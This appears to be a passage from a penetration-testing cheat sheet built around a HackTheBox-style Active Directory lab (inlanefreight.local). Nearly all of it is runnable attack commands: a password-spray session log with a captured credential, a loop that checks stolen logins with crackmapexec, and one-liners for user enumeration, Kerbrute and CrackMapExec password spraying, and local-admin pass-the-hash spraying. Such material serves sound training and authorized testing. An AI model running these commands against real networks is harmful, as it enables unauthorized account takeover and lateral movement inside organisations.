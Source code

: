 ```bash
```

---

## 📝 Attack Documentation Template

### 📊 **Spray Session Log**
```
Date: 2024-01-15
Time: 14:30:00 UTC
Method: Kerbrute Password Spray
Target DC: 172.16.5.5
Domain: inlanefreight.local
User List: valid_users.txt (57 users)
Password Tested: Welcome1
Results: 1 success (sgage:Welcome1)
Duration: 0.172 seconds
Event Risk: Low (Kerberos-based)
```

### 🎯 **Success Tracking**
```bash
# Create success log
echo "Username:Password:Method:Timestamp" > successful_logins.log
echo "sgage:Welcome1:Kerbrute:$(date)" >> successful_logins.log

# Validate all successes
while IFS=: read -r user pass method timestamp; do
    if [ "$user" != "Username" ]; then
        echo "Validating $user:$pass"
        crackmapexec smb 172.16.5.5 -u "$user" -p "$pass"
    fi
done < successful_logins.log
```

---

## ⚡ Quick Reference Commands

### 🔧 **One-Liner Sprays**
```bash
# enum4linux user enumeration (HTB method)
enum4linux -U DC_IP | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]" > validUsers.txt

# rpcclient one-liner
for u in $(cat validUsers.txt); do rpcclient -U "$u%PASSWORD" -c "getusername;quit" DC_IP | grep Authority; done

# Kerbrute spray (most effective)
kerbrute passwordspray -d domain.local --dc DC_IP validUsers.txt PASSWORD

# CrackMapExec spray
crackmapexec smb DC_IP -u validUsers.txt -p PASSWORD | grep +

# Local admin hash spray
crackmapexec smb --local-auth SUBNET -u administrator -H HASH | grep +
```
